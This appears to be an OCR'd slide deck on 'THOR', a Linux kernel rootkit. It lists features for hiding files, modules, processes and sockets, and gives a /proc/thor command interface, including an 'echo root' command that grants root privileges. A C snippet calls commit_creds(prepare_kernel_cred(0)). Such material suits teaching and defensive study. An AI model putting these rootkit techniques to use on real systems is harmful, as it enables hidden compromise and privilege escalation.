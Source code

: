 ```yaml
---
title: 'THOR'
subtitle: 'The ~~Horrific~~ Hopefully Omnipotent Rootkit'
author: [
    Alex Hirsch,
    FraJo Haider,
]
date: 2015-01-30
---
```


# Intro

## Features

- works with recent kernel
    - x86_64
    - ARM (BeagleBone Black)
- hide files by suffix (`__thor`)
- hide kernel modules
- hide processes
- hide sockets
- automatically handles forked processes
- hijack kernel functions
    - may not always work
    - *may lead to race conditions, kernel panics and other problems*

# Communication

## Usage

    usage:
       echo hp PID    > /proc/thor     (hides process PID)
       echo up PID    > /proc/thor     (unhides process PID)
       echo upa       > /proc/thor     (unhide all PIDs)
       echo hm MODULE > /proc/thor     (hide module)
       echo um MODULE > /proc/thor     (unhide module)
       echo uma       > /proc/thor     (unhide all modules)
       echo root      > /proc/thor     (gain root privileges)

# Gain Root Privileges

## `commit_creds()`

```{.c .numberLines}
    /* ... */

    } else if (strncmp(buffer, "root", MIN(4, count)) == 0) {

        commit_creds(prepare_kernel_cred(0));

    }
```
